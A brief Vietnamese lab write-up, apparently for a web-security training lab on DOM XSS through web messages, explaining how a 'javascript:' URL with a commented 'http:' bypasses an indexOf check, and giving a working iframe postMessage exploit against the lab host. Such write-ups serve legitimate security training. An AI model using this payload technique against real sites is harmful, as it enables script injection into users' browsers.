

## DOM XSS using web messages and a JavaScript URL

1. Trong source code, nhận thấy đoạn mã xử lý redirect theo message. Check xem value của message có chứa `http` hay `https`, nếu có thì redirect theo giá trị url.

2. Sử dụng protocol `javascript:` để thực thi print() để string `http:` đằng sau comment để bypass hàm indexOf()



3. Craft trang exploit bằng iframe bắt sự kiện onload thì gửi message với payload như trên tới lab 

```
<iframe src="https://0a0700e70478f45bc1d721cf001a002e.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```